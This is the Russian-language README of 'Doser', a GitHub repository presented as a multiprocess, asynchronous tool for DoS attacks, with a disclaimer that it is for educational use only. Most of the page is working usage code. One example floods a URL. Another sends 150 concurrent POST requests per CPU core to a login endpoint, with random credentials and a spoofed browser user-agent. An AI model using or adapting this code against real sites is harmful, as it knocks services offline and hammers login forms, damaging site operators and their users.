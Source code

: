 # Doser

>Автор не несет ответственности за негативные последствия, полученные
в результате использования данного репозитория. Весь код представлен
исключительно в образовательных целях!

Doser – многопроцессорный + асинхронный инструмент для DoS-атак.

## Установка зависимостей

```bash
pip install -r requirements.txt
```

## Минимальный пуск

```python
from dos import Doser
import multiprocessing as mp


if __name__ == '__main__':
    mp.freeze_support()

    try:
        Doser().start('https://example.com')
    except KeyboardInterrupt:
        print('\n- Aborted -')
```

## Расширенный пуск

```python
from dos import Doser, AlwaysRandomValue
from aiohttp import ClientResponse
import multiprocessing as mp
import string, time


_TIMEOUT_SEC = 7

def _url_format_callback(url: str, *_: any) -> str:
    return url.format(AlwaysRandomValue((2225, 2700), extra_chars=' ')())

async def _response_callback(response: ClientResponse, i: int, pid: int) -> None:
    pass

def _main(cpu_count: int) -> None:
    Doser(
        process_count=cpu_count,
        async_request_count=150
    ).start(
        url='https://example.com/login/?option={}',
        method='POST',
        timeout_sec=_TIMEOUT_SEC,
        url_format_callback=_url_format_callback,
        response_callback=_response_callback,
        allow_redirects=False,
        headers={
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36'
        },
        data={
            'login': AlwaysRandomValue(12, string.digits),
            'password': AlwaysRandomValue((9, 15)),
        },
        cookies={
            'name': 'value'
        }
    )

if __name__ == '__main__':
    mp.freeze_support()

    try:
        cpu_count = mp.cpu_count()

        print(f'- CPU count: {cpu_count} -\n')
        time.sleep(2)

        _main(cpu_count)
    except KeyboardInterrupt:
        print('\n- Aborted -')
```

## Протестирован на

- Windows 11
- [Python v3.11.4](https://www.python.org/downloads)
